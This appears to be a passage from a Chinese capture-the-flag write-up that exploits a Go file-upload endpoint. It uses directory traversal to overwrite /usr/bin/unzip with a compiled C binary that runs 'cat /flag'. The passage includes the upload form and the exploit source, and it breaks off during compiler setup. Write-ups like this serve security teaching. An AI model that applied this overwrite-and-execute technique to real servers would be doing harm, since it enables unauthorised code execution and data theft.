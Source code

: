 ```go
    unzipdir := filepath.Join("output", strconv.Itoa(rand.Int()))
    print(unzipdir)
    output, err := exec.Command("unzip", "-n", "-v", zipfile, "-d", unzipdir).CombinedOutput()
    if err != nil {
       return nil, err
    }

    return output, nil
}
```

提供了一个go语言接口,允许使用post方法向/unzip路由上传文件.

_, err = io.Copy(saveto, file)会把上传的文件拷贝到saveto路径,由此我们可以猜想可以通过目录穿越来实现覆写unzip文件

<!DOCTYPE html>
<html>
<head>
    <title>File Upload</title>
</head>
<body>
    <h1>Upload a File</h1>
    <form method="POST" action="http://1.container.jingsai.apicon.cn:31889/unzip" enctype="multipart/form-data">
        <input type="file" name="file" required>
        <br>
        <input type="submit" value="Upload">
    </form>
</body>
</html>

使用gpt生成了上述html代码从而实现上传文件到对应路由.要覆写的文件位于`usr/bin/unzip`路径,我们使用目录穿越实现覆写.

我们需要一个二进制文件来实现功能"cat /flag"

```C
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("cat /flag");
    return 0;
}
```

打开Ubuntu虚拟机,open in terminal:

```bash
nano catflag.c
```

输入上面的代码,ctrl+s保存,ctrl+x退出编辑.

```bash
sudo apt update
sudo apt install gcc
```
